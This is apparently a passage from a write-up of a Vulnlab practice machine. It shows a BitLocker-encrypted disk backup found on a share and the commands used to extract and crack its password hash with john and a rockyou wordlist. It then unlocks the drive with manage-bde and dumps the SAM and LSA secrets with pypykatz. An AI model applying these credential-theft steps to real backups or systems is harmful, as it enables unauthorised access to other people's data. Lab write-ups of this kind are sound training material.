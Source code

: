 Besides an info.txt file there is also a full disk backup in .vmdk format on the share. Because this backup is roughly 20GB in size (there is also a web-based download link available on the Vulnlab-Wiki). After downloading the backup, we try to create a new VM that uses the disk as it's hard disk, but realize that the drive is Bitlocker encrypted:

![Bitlocker](bitlocker.png)

In order to boot the server backup, we would need the password. Luckily, this drive has been encrypted on a server without a TPM - which means that it's possible to extract the hash of the password we need from the image! To do this, we use `john`:

```
~/tools/john/run/bitlocker2john -i file02.vmdk | tee hash
...
$bitlocker$0$16$b303e...
```

Now we can crack the hash. This is pretty slow and will only really help if the password is weak - which in this case it luckily is:

```
~/tools/john/run/john --format=bitlocker hash ~/tools/SecLists/Passwords/Leaked-Databases/rockyou-45.txt
...
```

After finding the password, we can now boot our image. Unfortunately, we also do not know the administrator password. So even though the disk gets encrypted on boot, we can not login.


### Windows

There is however a convenient way to decrypt and access the disk: If we attach it as a second drive to an existing Windows machine, we will be able to decrypt it by entering the password and then access the disk freely.

```
manage-bde -unlock E: -Password
...
```

At this point we want to look for anything that could help us compromise the linux machine. First we grab SAM, SECURITY & SYSTEM in order to offline dump the hashes from the machine:

```
pypykatz registry --sam SAM --security SECURITY SYSTEM

============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: ...
============== SAM hive secrets ==============
HBoot Key: ...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:...:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:...:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:...:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:...:::
svc_backup:1000:aad3b435b51404eeaad3b435b51404ee:...:::
============== SECURITY hive secrets ==============
Iteration count: 10240
Secrets structure format : VISTA
LSA Key: ...
NK$LM Key: ...
=== LSA DPAPI secret ===
History: False
Machine key (hex): ...
User key(hex): ...
```
